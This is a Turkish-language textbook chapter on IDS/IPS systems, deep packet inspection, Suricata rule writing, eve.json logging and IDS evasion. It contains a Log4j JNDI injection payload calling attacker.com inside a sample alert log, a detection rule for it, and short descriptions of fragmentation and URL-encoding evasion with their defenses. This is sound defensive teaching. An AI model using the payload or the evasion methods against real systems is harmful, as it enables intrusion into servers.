





# Saldırı Tespit/Önleme Sistemleri (IDS/IPS) ve Derin Paket İncelemesi

Ağ Güvenlik Duvarları trafiğin hangi IP ve porttan aktığını denetler; ancak izin verilen bir port üzerinden (örneğin port 443 veya 80) sisteme sızmaya çalışan bir SQL Enjeksiyonu, Buffer Overflow veya uzaktan kod çalıştırma (RCE) saldırısını tespit edemez.

Bu noktada devreye giren **Saldırı Tespit Sistemleri (IDS - Intrusion Detection System)** ve **Saldırı Önleme Sistemleri (IPS - Intrusion Prevention System)**; ağ paketlerinin içerisindeki veri yükünü (payload) bayt seviyesinde inceleyen **Derin Paket İncelemesi (Deep Packet Inspection - DPI)** teknolojisiyle ağın güvenlik bekçiliğini yürütür.







---

## §5.2.1. IDS ve IPS Karşılaştırması

| Özellik | IDS (Saldırı Tespit Sistemi) | IPS (Saldırı Önleme Sistemi) |
| :--- | :--- | :--- |
| **Konumlandırma** | Bant dışı (Out-of-Band / Pasif / SPAN / TAP) | **Hat üzeri (Inline / In-Path / Aktif)** |
| **Gecikmeye Etkisi** | Sıfır gecikme (Trafiğin kopyasını inceler) | Mikrosaniye düzeyinde ek gecikme ekler |
| **Müdahale Yeteneği** | **Pasiftir.** Saldırıyı durduramaz; yalnızca alarm üretir veya TCP RST yollar. | **Aktiftir.** Zararlı paketi anında düşürür (Drop) ve oturumu keser. |
| **Yanlış Pozitif (False Positive) Riski** | Düşüktür (Sadece gereksiz alarm üretir, iş akışı kesilmez). | **Yüksektir.** Yanlış bir kural kritik iş trafiğini kesebilir. |
| **Donanım Arıza Etkisi** | Ağ çalışmaya devam eder (Failsafe). | Bypass anahtarı (Bypass Switch) yoksa tüm ağ kesintiye uğrar. |

---

## §5.2.2. Tespit Metodolojileri: İmza, Anomali ve Davranış Analizi



1. **İmza Tabanlı Tespit (Signature-Based):** Bilinen saldırı kalıplarını (CVE zafiyetleri, bilinen exploit shellcode'ları, zararlı yazılım hash'leri) içeren geniş bir kural kütüphanesine dayanır. Hızlıdır ve yanlış pozitif oranı düşüktür; ancak henüz bilinmeyen sıfırıncı gün (0-day) saldırılarını yakalayamaz.
2. **Anomali ve Davranış Tabanlı Tespit (Anomaly-Based):** Ağın normal çalışma profilini (Baseline) çıkarır. Normalin dışına çıkan ani trafik sıçramalarını, olağandışı port kullanımlarını ve bilinmeyen protokol davranışlarını tespit eder. Sıfırıncı gün saldırılarını yakalayabilir ancak yanlış pozitif üretme ihtimali daha yüksektir.
3. **Protokol Durum Analizi (Stateful Protocol Analysis):** Protokollerin RFC standartlarına uygunluğunu denetler (örneğin HTTP başlığında standart dışı uzunluk veya geçersiz TCP bayrak kombinasyonları).

---

## §5.2.3. Suricata ile Üretim Standartlarında Kural Mühendisliği

Modern güvenlik operasyonlarında en yaygın çok çekirdekli (multi-threaded) açık kaynak motor **Suricata**'dır. Bir kural temel olarak üç bölümden oluşur: **Action**, **Header** ve **Rule Options**.

```text
[action] [protocol] [src_ip] [src_port] -> [dst_ip] [dst_port] ([rule_options])
```

### Örnek 1: Log4j (CVE-2021-44228) JNDI Enjeksiyon Tespiti
```text
alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS any (
    msg:"ET EXPLOIT Apache Log4j RCE Attempt (JNDI Injection)";
    flow:established,to_server;
    content:"${jndi:"; nocase; fast_pattern;
    pcre:"/\$\{jndi:(?:ldap|rmi|dns|nis|iiop|corba):/i";
    classtype:attempted-admin;
    sid:2034647;
    rev:1;
    metadata:cve CVE_2021_44228, attack_target Server;
)
```

### Kritik Kural Seçenekleri:
- `flow:established,to_server`: Yalnızca TCP 3-Way Handshake tamamlanmış ve istemciden sunucuya giden paketleri denetler. Sahte SYN paketlerinde boşuna CPU tüketmez.
- `fast_pattern`: Çok aşamalı kural denetimlerinde donanımsal arama algoritmasının ilk eşleştireceği en belirgin metindir.
- `threshold: type both, track by_src, count 5, seconds 60`: Kural tetiklendiğinde alarm yorgunluğunu (Alert Fatigue) önlemek için aynı kaynak IP'den gelen alarmları 60 saniyede en fazla 5 ile sınırlar.

---

## §5.2.4. Suricata eve.json Log Mimarisi ve SIEM Entegrasyonu

Suricata, tüm olayları yapılandırılmış JSON formatında `eve.json` dosyasına yazar. Bu log; alert, dns, http, tls, ssh ve akış (flow) telemetrisini tek bir akışta birleştirir:

```json
{
  "timestamp": "2026-10-15T20:20:15.123456+0300",
  "flow_id": 18274619283746,
  "event_type": "alert",
  "src_ip": "198.51.100.25",
  "src_port": 49210,
  "dest_ip": "10.0.1.10",
  "dest_port": 80,
  "proto": "TCP",
  "alert": {
    "action": "blocked",
    "gid": 1,
    "signature_id": 2034647,
    "rev": 1,
    "signature": "ET EXPLOIT Apache Log4j RCE Attempt",
    "category": "Attempted Administrator Privilege Gain",
    "severity": 1
  },
  "http": {
    "hostname": "portal.corp.local",
    "url": "/login",
    "http_user_agent": "${jndi:ldap://attacker.com/a}",
    "http_method": "POST"
  }
}
```

---

## §5.2.5. Evasion (Atlatma) Teknikleri ve IPS Savunması

Saldırganlar imza tabanlı IDS/IPS sistemlerini atlatmak için çeşitli ağ ve uygulama seviyesi hilelere başvururlar:

1. **Paket Parçalama (Fragmentation Evasion):** Saldırgan saldırı kodunu (shellcode) IPS'in MTU boyutundan daha küçük parçalara böler. IPS parçaları bellekte birleştiremezse (reassembly yapamazsa) saldırı tespit edilemez.
   - *Savunma:* Suricata/Snort motorunda `defrag` ve `stream` reassembly bellek boyutları genişletilmelidir.
2. **TCP Reassembly Manipülasyonu (Overlap & Out-of-Order):** Aynı TCP Sequence numarasına sahip farklı baytlar içeren çakışan paketler gönderilir. Windows ve Linux işletim sistemleri çakışan paketleri farklı kurallara göre önceler (Windows ilk geleni, Linux son geleni kabul eder).
   - *Savunma:* IPS üzerinde hedef işletim sistemine göre `os_policy` (Windows, Linux, BSD) profili aktif edilmelidir.
3. **URL Encoding ve Unicode Obfuscation:** Saldırgan `/etc/passwd` yerine `%2f%65%74%63%2f%70%61%73%73%77%64` yazar.
   - *Savunma:* IDS kuralında `http_uri` normalizasyonu kullanılmalıdır.

---

## §5.2.6. Yüksek Hızlı Hatlarda Donanımsal Hızlandırma: DPDK ve eBPF/XDP

10 Gbps ve 100 Gbps omurga hatlarında standart Linux çekirdeği (kernel network stack), paket başı kesme (interrupt) maliyeti nedeniyle kilitlenir ve paket düşürmeye (packet drop) başlar. Paket düşüren bir IDS, güvenlik kör noktası demektir.



- **DPDK (Data Plane Development Kit):** Linux çekirdeğini tamamen devre dışı bırakarak paketleri ağ kartından (NIC) doğrudan kullanıcı uzayındaki (user-space) bellek tamponuna taşır. 0 paket kaybı ile 40 Gbps+ hatlarda denetim sağlar.
- **eBPF / XDP (eXpress Data Path):** Paketleri işletim sistemi soketine girmeden önce doğrudan ağ kartı sürücüsü seviyesinde filtreler; DDoS saldırılarını mikrosaniyeler içinde düşürür.

---

## §5.2.7. Çapraz Referans ve Entegrasyon
- Güvenlik duvarı mimarileri için [§5.1 Güvenlik Duvarları ve NGFW Mimarisi](./01-guvenlik-duvarlari-ve-ngfw-mimarisi.md) bölümüne bakın.
- Açık kaynak güvenlik ekosistemi ve Zeek için [§12.2 Açık Kaynak Güvenlik Ekosistemi](../12-soc-noc-ve-ag-adli-bilisimi/02-acik-kaynak-guvenlik-ekosistemi.md) bölümüne bakın.
- Siber Güvenlik Operasyonları Kitabı'nda tespit mühendisliği ve Sigma kuralları için [Detection Engineering ve Tehdit Avcılığı](../../../siber-guvenlik-operasyonlari/14-operasyonel-guvenlik/02-detection-engineering.md) bölümünü inceleyin.
